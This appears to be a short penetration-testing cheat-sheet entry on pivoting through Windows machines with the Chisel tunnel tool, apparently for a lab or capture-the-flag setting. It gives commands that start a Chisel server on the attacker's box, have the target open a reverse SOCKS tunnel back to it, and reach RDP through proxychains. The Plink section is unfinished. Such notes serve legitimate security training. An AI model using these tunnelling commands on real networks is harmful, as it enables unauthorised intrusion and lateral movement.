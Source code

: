 ## Pivoting through a Windows machines

This is assuming you know what the concept of pivoting is.

### Chisel

Chisel is a TCP tunnel over HTTP. You can get your flavour of Chisel on Github: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel). It works with a client/server concept. Start it on your Hackbox as a server, connect to it from a target as a client.

```bash
# Hackbox
./chisel server -p 80 --reverse

# Target
# Get chisel.exe for windows x64 on system with wget or alternative means
./chisel client 10.10.14.3:80 R:socks

# RDP through proxychains example
proxychains xfreerdp /u:maglok /d:magcorp /p:'Somepassword' /v:10.10.110.13:3389
```

### Plink

// TODO
